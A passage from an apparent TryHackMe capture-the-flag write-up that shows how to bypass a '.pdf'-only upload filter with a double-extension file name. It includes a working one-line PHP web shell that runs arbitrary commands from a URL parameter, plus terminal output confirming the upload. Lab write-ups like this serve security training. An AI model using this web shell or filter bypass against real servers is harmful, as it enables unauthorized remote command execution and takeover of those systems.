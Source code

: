 As the code above: Only files those have `.pdf` is accepted

# Exploit

Create a shell which contains `.pdf` to upload

```tsx
┌──(kali㉿kali)-[~]
└─$ cat shell.pdf.php 
<?php echo shell_exec($_GET["cmd"]); ?>
```

![Untitled](HakervsHacker%20images/Untitled%204.png)

Verify that the shell has been uploaded successfully

```tsx
┌──(kali㉿kali)-[~/TryHackMe/HackervsHacker]
└─$ cat search.txt   
shell.pdf.php
```

![Untitled](HakervsHacker%20images/Untitled%205.png)
